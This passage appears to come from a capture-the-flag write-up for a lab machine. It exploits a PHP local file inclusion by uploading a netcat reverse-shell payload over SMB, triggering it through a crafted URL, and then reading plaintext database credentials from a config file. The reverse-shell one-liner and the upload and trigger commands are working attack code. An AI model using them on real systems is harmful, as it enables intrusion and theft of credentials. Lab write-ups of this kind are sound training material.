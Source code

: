 ```php

 echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
 include($_GET["pagename"].".php");
 //echo $_GET["pagename"];
 }
}else{
echo "<center><p>You can't see the content ! , please login !</center></p>";
}
?>
```


Below is a reverse shell we can upload and gain access with.

```php
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 4444 >/tmp/f');
?>
```

Remember that smb share we could write to before? `-c` lets us run a command, it's time to share our reverse shell with this box.
```
smbclient -N //10.10.10.123/Development -c 'put revshell.php revshell.php'
```

```
# Grab this url for a shell
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/revshell

# Spin up a listener
nc -nlvp 4444
```

### Webshell to friend

One of the first things to check is the website itself, where we find creds stored in plaintext within `mysql_data.conf`

```
$ cd www
$ ls
admin
friendzone
friendzoneportal
friendzoneportaladmin
html
mysql_data.conf
uploads
$ cat *.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```
